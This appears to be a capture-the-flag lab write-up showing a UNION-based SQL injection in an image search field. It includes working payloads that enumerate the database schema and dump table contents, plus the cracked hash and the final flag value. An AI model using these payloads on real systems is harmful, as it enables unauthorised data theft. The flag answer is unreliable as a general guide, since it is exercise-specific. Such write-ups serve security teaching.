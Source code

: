 # flag 5 | SQL injection


In this exploit, we will do an sql injection in the `Image number` search bar of 

If we enter a value like 1, 2, 3 in the searchbar, it will give us some informations
```txt
ID: 1 
Title: Nsa
Url : https://fr.wikipedia.org/wiki/Programme_
```

We can do
```sql
1 UNION select table_name, column_name FROM information_Schema.columns 
```

We will see all the possible table and column from this table, we can see that there is one called list_images and there column named 
```md
    id
    url
    title
    comment
```

We can try to show all the url and comment

```sql
1 UNION select url, comment FROM list_images
```

```sql
ID: 1  UNION select url, comment FROM list_images 
Title: If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46
Url : borntosec.ddns.net/images.png
```

So we have to decrypt `1928e8083cf461a51303633093573c46` with md5. We'll get : `albatroz`

we have to encrypt it on sha256 : `f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188`